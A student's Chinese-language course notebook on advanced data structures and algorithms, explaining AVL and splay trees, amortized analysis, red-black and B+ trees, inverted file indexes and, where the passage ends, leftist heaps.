一些碎碎念¶
约 289 个字 预计阅读时间 1 分钟
这里是我的个人笔记本，希望能用来记录一些学习过程中的笔记以及其他一些有趣的东西。
个人希望的是这个笔记本能够帮助我梳理平时学习到的各种东西🧐，同时也可用于平时和期末的复习。假如能帮到其他人也再好不过了
做的比较潦草，但是也没什么人看所以无所谓了（×
严重拖延症患者，不定时更新，笔记若有误请大胆提出
目前共有 44 个页面，83987 个字，576 行代码。
感谢
感谢shrike505 在建站过程中提供的巨大帮助
更新记录¶
2024¶
Computer Science ↵
Computer Science¶
约 92 个字 预计阅读时间不到 1 分钟
Abstract
部分笔记来自于课堂笔记、课上PPT，部分来自于自学内容以及自己查阅的资料
Table of Contents¶
- 专业课程:
- 编程语言（暂无）:
- 常用工具备忘（暂无）:
高级数据结构与算法分析 ↵
高级数据结构与算法分析¶
约 124 个字 预计阅读时间不到 1 分钟
任课教师：张国川
成绩组成
- 期末以外部分累计不超过 60%
- Homework 10%
- Discussions 10%++
- project 30%
- 期中 10%
- 期末 40%
Data Structures
- Balanced Search Trees:
- AVL Tree, Splay Tree
- B+ Tree
- Red-Black Tree
- Leftist Heaps, Skew Heaps
- Binomial Queue
- Inverted File Index
Algorithms
- Divide and Conquer
- Backtracking, Dynamic Programming
- Greedy Algorithms, Local Search
- NP-Completeness, Approximation Algorithms
- Randomized Algorithms, Parallel Algorithms
- External Sorting
Table of Contents¶
AVL Trees, Splay Trees,and Amortized Analysis¶
约 4170 个字 66 行代码 10 张图片 预计阅读时间 18 分钟
AVL Tree¶
AVL Tree的定义¶
AVL Tree的主要思路是每次进行插入和删除之后，都要检查树的平衡性，如果不平衡，则通过“旋转”操作来使树恢复平衡。
AVL Tree的递归定义
- 空树是 AVL 树
- 如果 T 不是空的，那么 T 是 AVL 树当且仅当
- 它的左子树和右子树的高度差不超过 1
- T 的左子树和右子树也是 AVL 树
平衡因子 (\(bf\)) 的定义
- 对于一个结点 \(x\)，它的平衡因子定义为 \(bf(x) = h(x.left) - h(x.right)\)，即左子树高度减去右子树高度
- 对于一个AVL树，它的所有结点的平衡因子都是 \(-1, 0, 1\)
AVL树是一种平衡二叉搜索树（balanced binary search tree），它在进行搜索、插入和删除时的时间复杂度能够保持在 \(O(\log n)\)。
AVL Tree的C++实现
由于AVL Tree关于平衡性的要求，因此在实现时需要维护每个结点的height.
- 高度通常有不同的定义，要根据题目来具体判断，这里我们认为空结点的高度是-1，叶结点的高度是0。
AVL Tree的旋转¶
AVL树的特点在于“旋转”操作，它能够在不影响二叉树的中序遍历序列的前提下，使失衡结点重新恢复平衡。换句话说，旋转操作既能保持“二叉搜索树”的性质，也能使树重新变为“平衡二叉树”。
RR型旋转-左旋¶
在某个结点的右子树(R)的右子树(R)上插入结点，导致该结点失衡，其平衡因子变为-2，需要进行左旋操作。
- A向左旋转成为B的左子树
- B原先的的左子树成为A的右子树

RR型旋转

LL型旋转-右旋¶
在某个结点的左子树(L)的左子树(L)上插入结点，导致该结点失衡，其平衡因子变为2，需要进行右旋操作。
- A向右旋转成为B的右子树
- B原先的的右子树成为A的左子树

LL型旋转

LR型旋转-先左旋后右旋¶
在某个结点的左子树(L)的右子树(R)上插入结点，导致该结点失衡，其平衡因子变为2，需要进行先左旋后右旋操作。
Tip
对于此类失衡结点，仅进行左旋或右旋均无法使其恢复平衡
需要进行两次旋转操作：
- 先对失衡结点的左子树进行左旋操作
- 再对失衡结点进行右旋操作
LR型旋转

RL型旋转-先右旋后左旋¶
在某个结点的右子树(R)的左子树(L)上插入结点，导致该结点失衡，其平衡因子变为-2，需要进行先右旋后左旋操作。
- 先对失衡结点的右子树进行右旋操作
- 再对失衡结点进行左旋操作
RL型旋转

具体分析后可以发现，AVL树的失衡情况仅有以上四种。当对AVL树进行插入或删除操作时，如果导致某个结点失衡，则需要根据其失衡情况进行相应的旋转操作，可以通过判断失衡结点的平衡因子来确定失衡类型，并采取相应的旋转操作。

| 失衡结点的平衡因子 | 子结点的平衡因子 | 应采用的旋转方法 |
|---|---|---|
| \(>1\)（左偏树） | \(\geqslant 0\) | LL旋转（右旋） |
| \(>1\)（左偏树） | \(<0\) | LR旋转（先左旋后右旋） |
| \(<-1\)（右偏树） | \(\leqslant 0\) | RR旋转（左旋） |
| \(<-1\)（右偏树） | \(>0\) | RL旋转（先右旋后左旋） |
Tip
虽然LR旋转和RL旋转实际上要进行两次旋转，但我们一般还是认为它们都是一次旋转（single rotation）。
AVL Tree的常用操作¶
插入¶
Tip
AVL树在进行插入操作后，从该结点到根结点的路径上可能会出现一连串的失衡结点，但实际上只需要对最近的一个失衡结点进行旋转操作即可。
因为仔细观察可以发现，旋转操作会使以这个失衡结点的为根的这颗子树的高度保持不变，从而它的父结点和更远的祖先结点的平衡因子恢复到原先的状态，因此后续就不需要旋转了。
- 找到要插入的位置所需时间复杂度为 \(O(\log n)\)，且只需进行一次 \(O(1)\) 的旋转操作，因此插入操作的时间复杂度为 \(O(\log n)\)。
删除¶
- 课件中并未要求实现AVL树的删除操作，但值得注意的是，AVL树的删除后旋转最多进行 \(O(\log n)\) 次，而找到要删除的结点所需时间复杂度也是 \(O(\log n)\)，因此删除操作的时间复杂度仍然是 \(O(\log n)\)。
- 由于删除操作可能涉及到不止一次的旋转操作，因此需要从被删除的结点开始，自底向上执行旋转操作，使所有失衡结点恢复平衡
因为我懒得写，而且似乎考试也没有要求，所以这里就不写了。🤪
查找¶
- AVL树的查找操作与普通二叉搜索树相同，其时间复杂度为\(O(\log n)\)，在此不再赘述。
综上所述，AVL树的插入、删除和查找操作的时间复杂度均为\(O(\log n)\)。
Splay Tree¶
Splay树的目的是希望在不像AVL Tree那样保持严格的平衡约束的同时，满足一定程度上对树的操作的对数时间复杂度（即对于一个空的树的连续\(M\)个树操作，总共的所需的时间不超过 \(O(M \log n)\)）。
- Splay树在进行访问时（包括插入、删除、搜索等操作），会将被访问的结点调整到树的根结点，这样可以使刚刚被访问的结点在接下来的操作中更容易被访问到，从而提高访问效率。
来自吴一航学长的ADS讲义
另一方面Splay树在访问（特别注意访问包括搜索、插入和删除）时都需要将元素移动到根结点，这非常符合程序局部性的要求，即刚刚访问的数据很有可能再次被访问，因此在实现缓存和垃圾收集算法中有一定的应用。
Splay树就是在原先的二叉搜索树的基础上，通过一系列的旋转操作，将访问的结点调整到根结点：
- 搜索：先通过普通二叉搜索树的方法找到结点，再通过一系列的旋转操作将结点调整到根结点
- 插入：先通过普通二叉搜索树的方法找到插入位置，再通过一系列的旋转操作将刚刚插入的结点调整到根结点
- 删除：先通过普通二叉搜索树的方法找到需要删除的位置，再通过一系列的旋转操作将删除的结点调整到根结点，然后删除根结点（即删除刚刚被选定的结点），再使用普通二叉搜索树的合并操作将左右子树合并
那么我们需要关注的是如何实现splay操作，即如何通过一系列的旋转操作将结点调整到根结点。
有一种相当自然的想法是：不断地把要访问的结点和他的父结点交换父子次序（即不断地进行单旋操作），直到该结点成为根结点。
这样的操作虽然把要访问的结点放到了根结点，但也把其上移路径上的结点移到了很深的位置，使得树的结构依然很不平衡，显然不满足我们对总时间复杂度的要求。

那么我们就要寻找一种合理的旋转方法，使得我们的时间复杂度要求得到满足。
Splay Tree的旋转操作
对于任何不是根结点的结点 \(X\)，我们关心它的 parent 结点 \(P\) 和 grandparent 结点 \(G\)
- case 1: 若 \(P\) 是根结点，直接旋转交换X和P
- case 2: 若 \(P\) 不是根结点，可再分为两种情况
- Zig-zag: 双旋(double rotation)，操作方法与AVL树的RL或LR旋转一致
- Zig-zig: 单旋(single rotation)，实际上也是旋转了两次。Zig-zig 操作与 AVL 树的 LL 或 RR 旋转不同，是先将 \(P\) 和 \(G\) 旋转交换，再把 \(X\) 和 \(P\) 旋转交换

现在我们已经得到了Splay Tree的核心操作splay，那么搜索和插入的操作就十分自然了，值得我们再次强调的是删除操作：
- Find X（此操作后X为根结点）
- Remove X
- FindMax(\(T_L\))（寻找左子树的最大结点，它一定没有右子树，使其成为新的根结点）
- Make \(T_R\) the right child of the root of \(T_L\) (因为现在 \(T_L\) 的根一定没有右子树，直接merge上去即可)
Amortized Analysis(摊还分析)¶
摊还分析的主要想法来自于我们希望能够通过适当的方法估计一系列操作的平均时间复杂度，但平均时间复杂度往往不太好估计，因此我们希望能够找到一种更好的方法。
假如直接把直接用所有情况中最差的时间复杂度作为平均情况的上界，这也是不恰当的，因为不可能每一步操作都是最坏的情况，因此我们要通过摊还分析对平均时间复杂度的上界进行估计和约束，即找到某种方式把时间复杂度“平摊”到每一步操作上，同时“平摊”后的结果也不小于直接平均得到的结果，那么我们就成功地约束和估计了平均时间的上界。
worst-case bound \(\geqslant\) amortized bound \(\geqslant\) average-case bound
我们可以采取以下三种方法：聚合分析、核算法以及势能法。通过栈来举例分析，Push和Pop的复杂度是\(O(1)\)，Multipop（将所有元素弹出）的复杂度是\(O(n)\)，其中\(n\)是当前栈中元素的个数。
聚合分析(Aggregate analysis)¶
显然，平均时间复杂度的最差情况是所有操作都是Multipop，但是由于我们最开始拥有的一定是空栈，因此显然不可能每一次操作都达到这样的时间复杂度。
我们要只考虑可能出现的情况中最差的时间复杂度，即从一个空栈开始的连续 \(n\) 次操作中，前 \(n-1\) 次都是Push，最后一次是Multipop。
因此，从空栈开始的连续 \(n\) 次操作中，最差的操作代价是 \(2n−2\)，把它平均分为 \(n\) 份就是摊还复杂度，因此摊还分析复杂度为 \(O(1)\)
核算法(Accounting method)¶
核算法的目标是求出平均时间成本，但将所有时间完美的平均十分困难，那我们只需要尽可能地截长补短，把成本大的截取出来分给成本小的，并且保证所有操作的总成本不会减小，这样才能保证摊还时间复杂度是平均时间的上界。
我们设第\(i\)种操作的真实成本是\(c_i\)，截长补短后的摊还成本是 $$ \hat{c_i} = c_i + \Delta_i $$
其中\(\Delta_i\)就是从长的截取出来部分（负值），或者给短的补充上去的部分（正值），并且我们要保证摊还成本不小于平均成本，那么就要有 $$ \sum_{i=1}^n \hat{c_i} \geqslant \sum_{i=1}^n c_i $$
也即 \(\sum_{i=1}^n \Delta_i \geqslant 0\)。
因为我们希望每一次操作的摊还成本是\(O(1)\)，所以我们希望这三种操作的成本都是常数级的，而Multipop的成本比较大，我们就要使它对应的 \(\Delta_i < 0\)，那么就要让成本小的操作 \(\Delta_i > 0\)
就像PPT中的例子那样，把Push的操作代价调整为2，Pop和Multipop的操作代价调整为0，那么连续\(n\)次操作的时间复杂度至多为\(O(2n) = O(n)\)，分摊给\(n\)次操作后就是\(O(1)\)。
上述处理的合理性的证明是显然的，因为size\((S) \geqslant 0\)，即进行Pop和Multipop之前必须Push，每一次Push的代价加1就足以抵消掉Pop和Multipop的所有代价，那么这就证明了\(\sum_{i=1}^n \Delta_i \geqslant 0\)
Tip
核算法(Accounting method)的名称可以理解为在银行中存取款，显然在取款之前必须存款，足够的存款才能抵消掉你的开销。
势能法(Potential method)¶
我们可以为整个结构设计一个势函数\(\Phi\)，使得第\(i\)次操作的摊还代价为 $$ \hat{c_i} = c_i + \left( \Phi(D_i) - \Phi(D_{i-1}) \right) $$
这里的\(i\)表示连续\(n\)个操作中的第\(i\)个，而非上面核算法的第\(i\)种。
所以每一步操作的摊还代价等于操作的真实代价加上势函数的变化，求和得到
我们希望这个摊还代价不小于真实代价，即 \(\sum_{i=1}^n \hat{c_i} \geqslant \sum_{i=1}^n c_i\)，那么就要有 \(\Phi(D_n) \geqslant \Phi(D_0)\)，即最终时刻势函数的变化不小于0。
我们在设计势函数时可以使得 \(\Phi(D_0) = 0\)，即初始状态的势能为0，并且其他任何时候的势能不小于0，那么就可以保证摊还代价不小于真实代价。
Splay Tree的摊还分析¶
我们知道最后得到的摊还分析结果是 \(O(\log n)\)，那么 \(\Phi(D_n)\) 就应当是 \(O(n\log n)\) 量级的，所以势函数中就要带有一个对数函数。最终得到了如下的定义： $$ \Phi(D_i) = \sum_{i \in T} \log S(i) $$ 其中 \(S(i)\) 表示子树 \(i\) 的大小（包括 \(i\) 自己在内的所有结点的个数）
 那么对于结点 \(X\) 在进行第 \(i\) 次操作时，我们可以得到如下的分析：
那么对于结点 \(X\) 在进行第 \(i\) 次操作时，我们可以得到如下的分析：
- zig操作的摊还代价
这里 \(R_i(P) - R_{i-1}(P)\) 显然为正值，因此去掉这两项之后可以得到第一个不等号
- zig-zag操作的摊还代价
这里我们注意到 \(R_i(X) = R_{i-1}(G)\), 因此这两项可以抵消掉，同时 \(R_i(P) + 1 \leqslant R_i(X)\)，\(R_i(G) + 1 \leqslant R_i(X)\)，并且还有 \(R_{i-1}(P) \geqslant R_{i-1}(X)\)。于是我们就可以得到第一个不等号
- zig-zig操作的摊还代价
这里我们就直接进行简单粗暴的放缩，注意到 \(R_i(P) + 1 \leqslant R_i(X)\)，\(R_i(G) + 1 \leqslant R_i(X)\) 和 \(R_{i-1}(P) \geqslant R_{i-1}(X)\)，\(R_{i-1}(G) \geqslant R_{i-1}(X)\) 就可以直接得到这个不等式
上面我们得到了每一次操作的摊还代价，那么就需要计算结点 \(X\) 从它所在的位置连续移动到根结点总共需要的摊还代价。设 \(X\) 的高度为 \(H(X)\)，则可能的旋转次数为
其中偶数的情况里所有的旋转都是zig-zig或zia-zag，奇数则是除了最后一次操作是zig之外，其他都是zig-zig或zig-zag。
考虑最坏的情况，即一定要旋转 \(k\) 次，那么总的摊还代价为
这里最后的等于 \(O(\log n)\) 来自于势函数的定义（对数的累和）
综上所述，Splay树的搜索、插入和删除的摊还复杂度均为\(O(\log n)\)·
红黑树与B+树¶
约 4571 个字 10 张图片 预计阅读时间 18 分钟
红黑树¶
AVL树为了实现平衡搜索树的目标，采用了暴力的保持严格平衡的方法（左右子树高度之差不可大于1），并且不断通过旋转保持平衡。而红黑树则是希望通过另一种并不那么严格的定义方式同样满足“平衡”的需求，即给每一个结点染色。
红黑树的定义¶
红黑树的定义
红黑树是满足以下性质的二叉搜索树
- 每个结点要么是红色的，要么是黑色的
- 根结点一定是黑色的
- 每一个叶结点（\(NIL\)）都是黑色的
- 如果一个结点是红色的，那么它的两个子结点都是黑色的
- 对于每个结点，从该结点到其所有后代叶结点（\(NIL\)）的简单路径上，都包含相同数目的黑色结点
- 对于上面的第二条性质，在对红黑树进行插入、删除时常会有将根节点变为红色的情况，但这时候可以直接将根结点染回黑色，这对于其他的性质也完全不会有任何影响
我们还可以对红黑树进行以下的补充定义
红黑树额外定义
- 我们将\(NIL\)称为外部结点，其余有键值的结点为内部结点
- 从某个结点 \(X\) 出发到达一个叶子结点（NIL）的任意一条简单路径上的黑色结点个数（不含 \(X\) 本身）称为 \(X\) 的黑高，记为\(bh(X)\)。除此之外，我们定义整棵红黑树的黑高为其根结点的黑高，\(bh(Tree) = bh(root)\)。
然后可以证明如下定理
红黑树的高度
- 一棵有 \(n\) 个内部结点的红黑树的高度至多为 \(2\log(n+1)\)
而红黑树也同样是二叉树，那么可以知道有 \(n\) 个内部结点的红黑树的高度至少为 \(\log(n+1)\)
简单来说，控制红黑树平衡的关键在于控制红色结点，控制了红色结点，就可以让红黑树保持一定程度上的平衡。
吴一航学长的ADS讲义
对于红黑树，黑高是绝对严格的平衡要求，而红色结点则是少量不平衡的因素，并且定义控制了红色结点的个数，也就控制了不平衡因素的影响，因此红黑树还是可以保持一定程度的平衡的。
红黑树的插入¶
红黑树在插入后，平衡的性质可能会被破坏，需要进行调整。新插入的结点应当涂为红色，否则每一次插入都会破坏性质5，而插入红节点则有可能不对上面要求的性质进行破坏。
下面来逐一讨论各种情况，假设新插入的结点为\(X\)，父结点为\(P\)，祖父结点\(G\)，叔结点(即父节点的兄弟)为\(U\)。
插入在黑结点下或插入空树¶
显然的，直接插入到黑结点下并不会对任何性质造成破坏，因此这种情况下不需要进行任何调整。
而插入到一个空树后，我们只需要把这个结点染成黑色即可，因为此时只需要保证根结点为黑色就足够了。
父结点为红色¶
下面的讨论中默认\(X\)插入在\(G\)的左子树中，右子树的情况只需要对称处理即可。
- 情况1：叔结点为红色（红叔叔）
无论\(X\)是\(P\)的左孩子还是右孩子，都属于这种情况。
吴一航学长的ADS讲义
需要注意的是，这里所有结点都带子树，一方面至少有NIL结点，另一方面这可以不仅仅表示刚刚插入的情况，也可以表示经过几次调整后还在被这种情况困扰，因此更具一般性。

我们的想法是把红色甩掉，但\(X\)的父亲和叔叔都是红色的，没办法解决它的问题，只能求助于祖父结点。
我们的方案是把\(X\)的父亲和叔叔染成黑色，祖父染成红色，这样一来从祖父开始的子树的黑高保持不变，不影响关于黑高的性质。但是这样并不代表问题已经解决了，因为祖父结点的父结点也同样可能是红色的，只不过这时候我们可以把祖父结点当成新插入的结点，然后递归地把问题向上传递，直到根结点。
当然向上传递的过程中可能不止遇见情况1，还可能遇见情况2和情况3，这时候我们需要继续调整，直到所有问题都得到解决
- 情况2：\(X\)的叔叔是黑色的，且\(X\)是右孩子（离叔叔较近）
- 情况3：\(X\)的叔叔是黑色的，且\(X\)是左孩子（离叔叔较远）

如图所示，情况2经过\(X\)和\(P\)的一次rotation之后就变成了情况3，情况三再进行一次rotation之后问题就成功解决了。
这里旋转的方法与AVL树的旋转方法是一样的，我们把红色视为trouble，进而决定要要LR还是LL旋转。
Tip
前面已经提到过，对于\(X\)插入在右子树的情况，只需要对称处理即可，即把LR换成RL，LL换成RR即可。
吴一航学长的ADS讲义

即如果插入后直接落入情况三，只需要一次旋转染色即可解决，直接落入情况二，一次旋转进入情况三，再一次旋转染色即可解决。但如果落入情况一，一次调整后可能还在情况一，可能直到最后都是通过情况一加上染黑根结点解决，也可能几次调整后进入情况二或三后解决。
根据这一流程我们知道，红黑树插入最多可能的旋转次数为2（因为只有情况2和3会要旋转，进入情况2后1次旋转必定进入情况3，进入情况3后1次旋转必定解决），然后更改颜色最多是\(O(\log n)\)次，因为进入情况2或3只需要一次染色，在情况1最差也是每两层染一次色。
而我们已经证明红黑树的最大高度是\(O(\log n)\)的。因此插入操作包括\(O(\log n)\)的搜索时间，加常数的旋转，加\(O(\log n)\)的染色，因此还是\(O(\log n)\)的时间复杂度
综上我们可以得到结论：一棵有\(n\)个内部结点的红黑树插入一个结点的时间复杂度为\(O(\log n)\)
Question
考虑从空树开始连续插入 \(n(n>1)\) 个结点得到一棵红黑树（每一步插入都要保证红黑树性质），试问这棵树一定会有红色结点吗？若是，请给出清晰的证明；若不是，请举出反例。
答案是一定会有红色节点。采用数学归纳法证明：
- 当平凡情况\(n=2\)时，根结点下插入的结点一定是红色，且不需要调整颜色
- 对于之后的情况，假如新插入红色结点后不需要调整颜色，那么显然会有红色结点；假如需要调整，回顾三种情况的讨论，发现无论哪种情况，红黑树在调整后一定会保留下红色结点。
红黑树的删除¶
首先回忆普通二叉树的删除操作，主要有以下三种情况
- 如果\(X\)是叶子结点，直接删除即可
- 如果\(X\)只有一个孩子，直接用孩子替代\(X\)
- 如果\(X\)有两个孩子，找到\(X\)的中序后继\(Y\)，把\(Y\)的值赋给\(X\)，然后删除\(Y\)，这里的\(Y\)是左子树中最大的结点或者右子树中最小的结点
观察可以发现第三种情况可以通过一步交换转化为第一种或第二种情况，因此我们只需要讨论第一种和第二种情况即可。需要注意的是，在红黑树中交换时只交换键值不交换颜色，否则可能会破坏红黑树的性质5。
红黑树删除的平凡情况¶
在第一种情况中，接替被删除结点所在位置的结点是NIL，第二种情况则是被删除结点的子结点。
假如被删除结点是红色的，那么直接删除即可，不会对红黑树的性质造成破坏；假如被删除的是黑色结点，如果接替上来的结点是红色的，直接把它染黑也不会破坏任何性质。
但是如果被删除的是黑色结点，并且接替上来的是NIL或是黑色结点，那么就需要进行细致的讨论和调整。
红黑树删除的复杂情况¶
这里我们采用一个巧妙的办法，我们直接给接替上来的黑色结点或者NIL(实际上也是黑色结点)再加一重黑色，使它的颜色变成“双黑”，这时候它一个结点就可以提供两个黑高，所以性质5并没有被破坏。
但是这里出现了非红非黑的结点，性质1被破坏了，我们就需要把这个多余的黑色传递给一个红色结点，或者直接向上传递到根结点（如果根结点是双黑的，直接把它变回黑色即可，因为根结点是什么颜色实际上并不影响红黑树的性质）于是这样就成功解决了问题。
我们可以把传递双黑的过程分为四类，用子树表示更一般的情况，\(X\)是需要处理的结点，黑结点旁的加号表示双黑，蓝色结点表示此时这个结点的颜色并不重要。同样的，这里只讨论了\(X\)是父结点的左孩子的情况，右孩子的情况只需要对称处理即可。
- 情况1：\(X\)的兄弟是红色的

由于兄弟结点是红色的，那么父结点就一定是黑色的。我们的想法很简单，兄弟是红色的，就让兄弟来替我们解决这个难题，于是就把兄弟转上去染成黑色；这时候为了红黑树的性质，只能把父亲染红，双黑仍然在\(X\)上。
这么做虽然没有解决问题，但成功地把情况1转换成了情况2、3、4之中的一个。注意到现在\(X\)的兄弟一定是黑色的，因为这个兄弟是原先兄弟\(S\)的孩子。
- 情况2：\(X\)的兄弟是黑色的，且兄弟的两个孩子都是黑色的
Tip
这里根据与\(X\)的距离划分远、近侄子，这样一来在对称的情况中就不容易混淆。

这时候发现兄弟帮不了自己了，两个侄子都是黑色的也帮不上忙，那就只能把问题推给父结点。
我们把\(X\)的双黑变回黑色，兄弟从黑色变成红色，并且给父结点多加一层黑色：如果父亲是红色，就直接染黑；如果父亲是黑色，就把它变成双黑，把问题向上传递。
简单来说，\(X\)和兄弟减少一层黑色，父结点多加一层黑色，这样一来这以父结点为根的树的黑高也并没有发生变化，就维护了整棵红黑树的性质5。
Tip
如果情况2是由情况1转换而来，那么这时候父结点一定是红色的，直接把它染黑就成功解决了问题
- 情况3：\(X\)的兄弟是黑色的，且近侄子是红色的，远侄子是黑色的

这里我们借用AVL树的思想，红侄子在父亲\(P\)的RL位置，把红侄子与兄弟\(S\)进行 single rotation，就变成了情况4，也即红色在父亲\(P\)的RR位置。
- 情况4：\(X\)的兄弟是黑色的，且远侄子是红色的，近侄子的颜色任意

这一种情况对应AVL树的RR，我们只需要对父亲\(P\)进行一次左旋（即\(P\)与\(S\)旋转），然后让\(S\)和\(P\)交换颜色，并且把\(X\)多余的黑色丢给远侄子，这样一来就成功解决了问题。
可能有些不直观，但是仔细思考可以发现，在旋转前黑色的\(S\)对应\(X\)多出来的一个黑高，所以\(N_1\)和\(N_2\)为根结点的子树的黑高与\(X\)为根结点的子树的黑高是一样的（假如把\(X\)变回单层的黑色的话），这样一来就可以很明确的看出旋转后\(S\)的两棵子树黑高相同（因为此时\(N_2\)的黑高加1了），这样就成功保持了性质5，说明问题成功解决。
吴一航学长的ADS讲义

首先我们最多用 \(O(\log n)\) 的时间找到删除结点， 最多1次交换和1个删除的操作。接下来如果删除后没有问题则到此结束。
否则根据分析，情况1、3和4在问题解决前最多进行一次，因为情况4可以直接解决，情况3直接进入4然后解决，情况1如果进入情况3和4也可以马上解决，进入情况2后也因为父结点是红色可以马上解决。因此关键在于情况2可能出现很多次，但最多也只是树高 \(O(\log n)\) 次，因为每次都会上推1层。
总而言之，因为情况1、3和4在问题解决前最多出现一次，所以最多3次旋转加上 \(O(\log n)\) 次颜色调整可以解决问题
于是我们就可以得到结论：一棵有\(n\)个内部结点的红黑树删除一个结点的时间复杂度为\(O(\log n)\)
Question
考虑将一个结点\(X\)插入红黑树 \(T_0\)，得到红黑树 \(T_1\)，然后紧接着下一步操作又立刻将\(X\)从 \(T_1\) 删除得到 \(T_2\)，请问 \(T_0\) 和 \(T_2\) 是否一定一样？若是，请给出清晰的证明；若不是，请举出反例。
显然不是，只需要考虑以下情况即可

B+树¶
B+树的定义¶
B+树满足以下性质：
- B+树的根要么是叶结点，要么拥有2到\(M\)个孩子。
- 除根结点外，每个非叶结点有\(\lceil M/2 \rceil\)到\(M\)个孩子。
- 所有叶结点都在同一层。
B+树的主要构造思路是减小树的深度，因此它放弃了我们常用的二叉树而选择了多叉树，这样一来在检索时就可以有效减少与中间结点比较键值的操作数量，在某些情况下可以大大加快搜索的效率。
B+树将数据存储在叶结点上，非叶结点只存储这些数据的索引（即键值），这样在搜索时就可以通过比较键值来确定要去左孩子还是右孩子中寻找所需的数据。而B+树的叶结点之间通过指针相连，这样可以方便地进行范围查询。
常见的B+树有\(M=3\)与\(M=4\)，也称2-3树和2-3-4树，这里的数字表示每一个结点可能拥有的子树数量，或者叶节点中可以储存的数据数量

B+树的操作¶
搜索¶
根据B+树的定义，我们需要在非叶结点层逐层和非叶结点储存的键值进行比较，从而确定要去向哪一个子树寻找。 这里的时间复杂度与树的高度和每一层搜索需要的时间有关。
显然最大高度是 \(O(\log_{\lceil M/2 \rceil} N)\)
又因为每一层的键值都可以用二分法来查找，复杂度为 \(O(\log_2 M)\)
将层数乘上每一层的查找次数，我们有
因此综合得到的时间复杂度为 $$ O(\log_2 M \cdot \log_{\lceil M/2 \rceil} N) = O(\log N) $$
插入¶
插入的思路比较明确，首先寻找到要插入的位置，插入后如果发现此时叶结点储存的数据太多了，就从\(M+1\)个数据分裂成 \(\lceil (M+1)/2 \rceil\) 和 $ \lfloor (M+1)/2 \rfloor $ 两个叶结点。
需要注意的是，如果某一个叶结点插入后爆满了，并且发现相邻的叶结点还有空位，这时候可以把一个数据分给相邻叶结点。并且要强调的是，这时候叶结点并没有分裂，但是上层的结点所储存的数据也需要更新。
树有 \(O(\log_{\lceil M/2 \rceil} N)\) 层，每一层操作至多是 \(O(M)\)，因此整体时间复杂度是 $$ O(M \cdot \log_{\lceil M/2 \rceil} N) = O(\dfrac{M}{\log M} \log N) $$
伪代码如下
删除¶
删除的思路实际上只需要把插入的分裂结点改为合并结点，当然假如相邻叶结点的键值足够的话，可以直接从相邻叶结点那里取一个键值过来，从而减少合并的次数，但也要注意上层结点的更新。
时间复杂度同样为 $$ O(M \cdot \log_{\lceil M/2 \rceil} N) = O(\dfrac{M}{\log M} \log N) $$
倒排文件索引¶
约 1047 个字 25 行代码 6 张图片 预计阅读时间 5 分钟
倒排文件是一种数据结构，用于存储某一个特定词汇在文本中出现的所有位置的索引（如页码数、行号或是用某种方式记录的文本具体位置等），是信息检索系统中最常用的数据结构之一。
- 基本思想：对于文本中的每一个词汇，记录该词汇在文本中出现的所有位置。
- 主要优点：可以快速定位到文本中的某一个词汇，从而快速检索到包含该词汇的文本。

在上图中，除了储存文件的索引之外，还储存了这些单词出现的频率。这是因为一般而言，一个单词在整一个数据库中出现的频率越低，它的检索价值就越高，对这些词汇进行检索就更容易找到相关的资料；而有一些词汇在所有文本中出现的频率都很高，如“the”、“a”等包括介词、代词在内的常用词汇，这些词汇对于检索来说并没有太大的价值，因为几乎所有文本都会带有这些词汇，检索它们并不能帮助我们找到我们想要的资料，我们将这些词称为 Stop Words（停用词）。
构建一个倒排文件索引¶
在构建时，需要考虑一些问题：
- Word Stemming：词汇变形问题，如单词的时态、单复数、大小写等问题，需要将这些变形的词汇都映射到同一个词汇上。如 “run”、“Run”、“running”、“ran” 等都应映射到 “run” 上，不应单独储存。
- Stop Words：停用词问题，如 “the”、“a”、“it” 等常用词汇，不应储存。
-
检索方式：
- 搜索树：检索速度较慢，但是支持模糊查询（范围查询）。
- 哈希表：检索速度较快，但是不支持模糊查询，并且需要考虑哈希冲突的问题。
-
内存管理：当需要储存的数据量非常大，一个硬盘都装不下时，就需要把数据分别装在不同的硬盘上
- Distributed indexing：将倒排索引分布到多个服务器上，每个服务器按照文件内容或文件编号等形式分类，分别负责一部分索引

- Dynamic indexing：假如在每一次文件增删之后立刻就更新索引库，这样的开销是相当大的，因此可以建立一个辅助索引库，对于索引的更改先暂存在辅助索引库中，搜索时同时使用主索引库和辅助索引库，当满足一定条件时（每隔一定时间、辅助索引库大小达到一定程度等），再将辅助索引库中的内容合并到主索引库中去。

- Compression：在储存时将stop words去掉，并且储存每个单词的长度而非该单词首字母出现的位置。

-
Thresholding（阈值）：
-
文档阈值：
- 将所有文档按照权重排列，仅返回排名最高的前 x 个文档。
- 不适用于布尔查询，因为布尔查询通常需要返回所有文档。
- 缺点在于可能因为截断忽略一些相关的文档，如重要文档的数量不止 x 个。
-
查询阈值：
- 将查询词按照出现的频率升序排列
- 仅根据原始查询词中的某个百分比进行搜索，如在下图中按 20%、40%、80% 的比例搜索查询词

-
如何衡量一个搜索引擎¶
对于用户而言，一个搜索引擎的性能衡量指标主要有两个：准确率 与 召回率。
- 准确率：检索到的与目标相关的文档 与 检索到的所有文档的比值 Perscision = $ \dfrac{R_R}{R_R + I_R} $
- 召回率：检索到的相关文档 与 数据库中所有相关文档的比值。 Recall = $ \dfrac{R_R}{R_R + R_N} $

通常而言准确率越高，召回率就越低；反之相同，召回率越高，准确率就越低，在设计系统时通常要对两者进行 trade off。
左倾堆与斜堆¶
约 3316 个字 84 行代码 3 张图片 预计阅读时间 14 分钟
对于一般的堆的各种基本操作的分析，在这里不再强调，但我们希望对于堆的合并操作，我们能得到更好的表现，把\(O(n)\)的时间复杂度改进到\(O(\log n)\)，这就是我们定义左倾堆以及斜堆的思想来源。
左倾堆¶
左倾堆的定义与性质¶
NPL
我们把任一结点 \(X\) 的零路径长（Null Path Length, NPL），\(NPL(X)\) 定义为从 \(X\) 到一个没有两个儿子的结点的最短路径的长。因此，具有 0 个或 1 个儿子的结点的 NPL 为 0，且规定 \(NPL(\text{NULL}) = -1\)。
根据这一定义，我们知道对于任意结点 \(X\)， $$ NPL(X) = 1 + min{NPL(left), NPL(right)} $$
左倾堆 Leftist Heap
- 左倾堆的序性质与一般的二叉堆相同(最小堆、最大堆)
-
左倾堆的结构性质：
- 对于任意结点\(X\)，其左儿子的 NPL 不小于右儿子的 NPL，即 \(NPL(left) \geqslant NPL(right)\)
- 这一定义也适用于没有两个孩子的结点，因为根据定义有 \(NPL(\text{NULL}) = -1\)
根据左倾堆的定义，我们可以得到左倾堆的一个性质
左倾堆的性质
